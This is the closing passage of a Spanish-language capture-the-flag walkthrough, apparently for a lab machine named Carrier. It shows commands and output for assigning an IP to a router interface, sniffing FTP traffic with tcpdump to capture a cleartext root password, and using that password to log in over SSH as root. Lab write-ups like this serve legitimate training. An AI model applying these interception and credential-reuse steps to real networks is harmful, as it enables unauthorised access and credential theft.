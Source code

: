 Ahora tendremos que añadir la red a la interfaz eth2, podemos hacerlo de la siguiente forma:

```bash
root@r1:/opt# ip addr add 10.120.15.10/25 dev eth2
root@r1:/opt#
```

Ahora podemos usar herramientas como tsark o tcpdump para ver los paquetes de la red que esten pasando por eth2 y ver si capturamos las credenciales del FTP.

```bash
root@r1:/tmp# tcpdump -vv -i eth0 -w ftp.pcap port 21
```

Después de un rato podemos ver que nos llega información. 

```bash
root@r1:~# tcpdump -vv -s0 -ni eth2 -c 10 port 21
tcpdump: listening on eth2, link-type EN10MB (Ethernet), capture size 262144 bytes
[...]
13:53:01.528076 IP (tos 0x10, ttl 63, id 11657, offset 0, flags [DF], proto TCP (6), length 63)
    10.78.10.2.50692 > 10.120.15.10.21: Flags [P.], cksum 0x2e03 (incorrect -> 0x75af), seq 1:12
	USER root
[...]
13:53:01.528248 IP (tos 0x10, ttl 63, id 11658, offset 0, flags [DF], proto TCP (6), length 74)
    10.78.10.2.50692 > 10.120.15.10.21: Flags [P.], cksum 0x2e0e (incorrect -> 0xa290), seq 12:34
	PASS BGPtelc0rout1ng
```

Si probamos a loggernos con SSH podemos ver que las crendenciales son validas.

```bash
❯ ssh root@10.10.10.105
root@10.10.10.105´s password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Mar  3 19:24:33 UTC 2023

  System load:  0.0               Users logged in:       0
  Usage of /:   63.6% of 8.73GB   IP address for ens160: 10.10.10.105
  Memory usage: 35%               IP address for lxdbr0: 10.99.64.1
  Swap usage:   0%                IP address for lxdbr1: 10.120.15.10
  Processes:    296


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

4 packages can be updated.
0 updates are security updates.


Last login: Fri Sep 30 15:44:00 2022
root@carrier:~#
```

Espero que te haya servido! 
